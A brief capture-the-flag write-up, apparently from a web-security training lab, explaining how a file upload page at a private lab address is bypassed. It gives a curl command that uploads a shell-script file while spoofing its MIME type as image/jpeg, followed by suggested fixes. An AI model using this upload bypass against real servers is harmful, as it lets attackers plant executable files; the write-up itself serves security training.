 # 12_File_Uplaod

Here is the located page for having the flag :
http://10.12.100.35/?page=upload

# *How to find it*

go to add image in button of home page to redirect you http://10.12.100.35/?page=upload

In the command line, create an empty file that could potentially contain malicious script as follows

__touch flag.sh__

Send the request through the curl command line utility with the appropriate IP address as follows to get the flag

__curl -s -F "uploaded=@flag.sh;type=image/jpeg" --form Upload=Upload "http://10.12.100.35/?page=upload" | grep "flag"__

# *How should secure it*

- use function like getimagesize() in php to check if the image content is valid.
- blacklisting file extensions.

# *SRC*

https://www.geeksforgeeks.org/php-getimagesize-function/



